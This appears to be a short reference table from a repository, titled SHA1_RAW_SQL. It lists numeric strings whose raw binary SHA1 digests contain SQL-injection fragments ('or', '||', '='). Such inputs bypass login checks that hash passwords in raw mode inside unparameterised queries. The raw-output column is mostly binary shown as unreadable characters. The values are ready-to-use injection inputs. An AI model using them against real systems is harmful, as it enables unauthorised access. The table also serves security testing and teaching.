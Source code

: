 # SHA1_RAW_SQL

| Hash string                | SHA1 Hash                                     | Raw output            |Query |
| -------------------------- |:---------------------------------------------:|:---------------------:|:----:|
| 6698203317799070           |96009c0bafe7be05e23b0079226f7222d82fee88       |�����;y"or"�/�       |"or"  |
| 6986601413296588           |9086f64aee685f31666689e7277c7c27dc9c78ae       | ���J�h_1ff��'\|\|'ܜx�|'\|\|'| 
| 1544198490432198           |0ab4f9472ad062911f1c276f72275e323ec0ea06       | ��G*�b�'or'^2>��   |'or'  |          
| 3672425191345760           |f329613e274f522773ab025380a2a48a65dc8c9d       | �)a>'OR's�S����e܌�  |'OR'  |
| 90044158557888             |ecb85b1335f495fa07c8273d2764f9e7381569c9       | �\[5����'='d��8i�  |'='   |
| 8152926040256027           |49f3b2b968273d27b41e8b5892b0719858fd1608       | I�h'='��X��q�X�    |'='   |
| 4219257263531947           |e592e062d009273d274dbbc3d3661d9b4ef58724       | ��b� '='M���f�N��$   |'='   |
| 681285578467884            |8d2c4c556c521d273d270eade836f4338a03904d       | �,LUlR'='��6�3��M  |'='   |
| 3133235857654965           |df22273d277b42b1bf4fc3429ea9c861ae869844       | �"'='{B��O�B���a���D  |'='   |
| 576197079592062            |d5fa374044a0a3c07bca570744d3273d276c3511       | ��7@D���{�WD�'='l5  |'='   |
